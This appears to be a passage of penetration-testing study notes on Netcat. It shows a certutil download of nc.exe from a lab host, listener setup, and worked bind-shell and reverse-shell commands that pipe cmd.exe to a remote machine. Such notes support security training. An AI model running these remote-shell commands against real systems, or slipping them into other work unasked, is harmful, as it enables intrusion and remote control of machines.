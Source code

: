     ```powershell
    C:\> mkdir Temp
    C:\> cd Temp
    C:\Temp> certutil -urlcache -f http://10.10.20.3/nc.exe nc.exe
    C:\Temp> nc.exe -h
    ```

    ```bash
    kali@kali> nc -lnvp 1234
    ```

    ```powershell
    C:\Temp> nc.exe 10.10.20.3 1234
    ```

    From now, you are able to send messages between both machines. If you set the listener with flags `-lnvup`, the `-u` means UDP protocol.

    ```bash
    kali@kali> nc -lnvup 1234         # server
    C:\Temp> nc -nvu 10.10.20.3 1234  # client
    ```

    #### Bind shell

    * A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
    * A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

    ```bash
    C:\Temp> nc.exe -lnvp 1234 -e cmd.exe
    ```

    ```bash
    kali@kali> nc 10.3.24.103 1234
    C:\Temp> whoami
    ```

    #### Reverse shell

    * A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

    ```bash
    kali@kali> nc -lnvp 1234
    ```

    ```bash
    C:\Temp> nc.exe -nv 10.10.20.4 1234 -e cmd.exe
    ```

    On the Linux terminal a Windows shell pops up.

### Exploitation frameworks
